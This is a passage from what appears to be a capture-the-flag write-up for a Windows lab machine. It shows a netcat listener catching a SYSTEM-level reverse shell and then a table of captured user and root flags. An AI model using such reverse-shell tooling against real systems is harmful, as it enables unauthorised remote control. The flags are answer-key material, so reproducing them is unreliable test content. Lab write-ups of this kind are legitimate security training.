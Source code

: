 ```bash
❯ nc -nlvp 3333
Connection from 10.10.11.108:57167
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
 whoami
nt authority\system
```
We obtained a root shell (Administrator).

## CVE
No CVEs were used in this machine.

## Machine flag
| Type | Flag | Blood | Date |
| :-: | :-: | :-: | :-: |
| User | b870f48a1d2afb796af51c64c9a26969 | No | 01-06-2022|
| Root | 5184c7326d77b4a81638b45c40b65e29 | No | 01-06-2022|

## References
- https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators

